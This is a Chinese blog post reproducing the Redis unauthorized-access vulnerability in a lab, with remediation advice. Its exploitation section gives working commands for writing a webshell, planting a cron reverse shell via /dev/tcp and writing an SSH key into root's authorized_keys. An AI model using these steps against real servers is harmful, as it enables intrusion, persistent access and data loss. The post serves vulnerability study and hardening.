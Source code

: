 ```yaml
---
layout: post
title: "Redis未授权访问的发现和利用"
date: 2021-12-04
author: 2hanx
toc: true
comments: true
categories: [漏洞复现]
tags: [Redis]
---
```


### 应用介绍

Redis 是一个开源（BSD许可）的，内存中的**数据结构存储系统**，它可以用作数据库、缓存和消息中间件，可基于内存亦可持久化的日志型、 Key-Value数据库。

### 漏洞介绍

Redis **因配置不当可以导致未授权访问**，被攻击者恶意利用。如果 Redis 以 *root* 身份运行，黑客可以给 *root* 账户写入SSH 公钥文件，通过SSH登录受害服务器，可导致服务器权限被获取和数据删除、泄露或加密勒索事件发生，严重危害业务正常服务。

### 漏洞危害

1. 攻击者无需认证访问到内部数据，也可以恶意执行 `flushall `来清空所有数据
2. 可通过 `eval` 执行lua代码，或通过数据备份功能写入后门到备份文件里
3. 如果 Redis 服务器由 *root* 账号运行，则可以给 *root* 账户写入 ssh 公钥文件，从而远程登录到服务器

### 环境搭建

```shell
apt-get install redis-server
```

### 漏洞复现

Redis 的默认开放端口是 **6379**，我们可以通过 `redis-cli` 工具远程连接 Redis 服务器。

```shell
┌──(root💀kali)-[~]
└─# redis-cli -h 192.168.174.141   
192.168.174.141:6379> help
redis-cli 6.0.16
To get help about Redis commands type:
      "help @<group>" to get a list of commands in <group>
      "help <command>" for help on <command>
      "help <tab>" to get a list of possible help topics
      "quit" to exit

To set redis-cli preferences:
      ":set hints" enable online hints
      ":set nohints" disable online hints
Set your preferences in ~/.redisclirc
192.168.174.141:6379> info
# Server
redis_version:4.0.14
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:3914f9509eb3b682
redis_mode:standalone
os:Linux 5.11.0-40-generic x86_64
......
192.168.174.141:6379> keys *
(empty array)
```

当输入 `keys *` 命令查看数据库内容时未出现 *error*，则表示该数据库未设置密码，而如果需要认证的话，则使⽤命令`auth "password"`。

#### 漏洞验证

`nuclei.exe -u 192.168.174.141 -t .\exposed-redis.yaml`

#### 攻击利用

> 前提条件：
>
> 1. 可未授权或弱口令连接 redis 并执⾏redis指令
> 2. 开启web服务器，并且知道路径，此外还需要具有⽂件 CURD 权限（我们可以将 `dir `设置为⼀个⽬录 `a`，⽽`dbfilename`为⽂件名`b`，再执⾏`save`或 `bgsave`，则我们就可以写⼊⼀个路径为`a/b`的任意⽂件）

1. 写webshell

   ```shell
   192.168.174.141:6379> config set dbfilename bd.php
   OK
   192.168.174.141:6379> set webshell "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
   OK
   192.168.174.141:6379> config set dir /var/www/html
   OK
   192.168.174.141:6379> save
   OK
   192.168.174.141:6379>
   ```

2. 利用计划任务反弹shell

   ```shell
   192.168.174.141:6379> set cron "\r\n\r\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.174.141/6677 0>&1\n\r\n\r"
   OK
   192.168.174.141:6379> get cron
   "\r\n\r\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.174.141/6677 0>&1\n\r\n\r"
   192.168.174.141:6379> config set dir /var/spool/cron
   OK
   192.168.174.141:6379> config set dbfilename root
   OK
   192.168.174.141:6379> save
   OK
   192.168.174.141:6379>
   ```

3. 写ssh私钥远程登录

   1. 本地生成ssh公私钥

      ```bash
      ssh-keygen -t rsa
      ```

   2. 将生成的 *id_rsa* 另存为 *redis.txt*

      ```shell
      (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > redis.txt
      ```

   3. 导入 redis

      ```shell
      cat ~/.ssh/redis.txt | redis-cli -h 192.168.174.141 -p 6379 -a 123456 -x set crack
      ```

      > 此时 Redis 数据库中 `crack` 键的值就是登录私钥

   4. 将私钥写入到 *root* 账号下

      ```shell
      192.168.174.141:6379> config set dir /home/root/.ssh
      OK
      192.168.174.141:6379> config set dbfilename authorized_keys
      OK
      192.168.174.141:6379> save
      OK
      ```

   5. 远程连接

      ```shell
      ssh -i id_rsa root@192.168.174.141
      ```

### 修复建议

1. 设置 bind ip

   修改 `/etc/redis/redis.conf` 配置文件中的 *bind* 值。

2. 设置密码

   ```shell
   192.168.174.141:6379> config set requirepass "yourpassword"
   ```

3. 修改默认端口

### 总结

1. Redis 常用命令

   ```shell
   # 查看数据库所有内容
   keys *
   # 查看某个键的值
   get mykey
   # 查看信息
   info
   # 查看配置文件
   config get *
   # 查看数据库密码
   config get requirepass
   # 删除数据库密码
   config set requirepass ""
   # 设置数据库密码
   config set requirepass "passwd"
   # 验证密码
   auth "passwd"
   # 默认配置文件地址
   /etc/redis/redis.conf
   ```

   
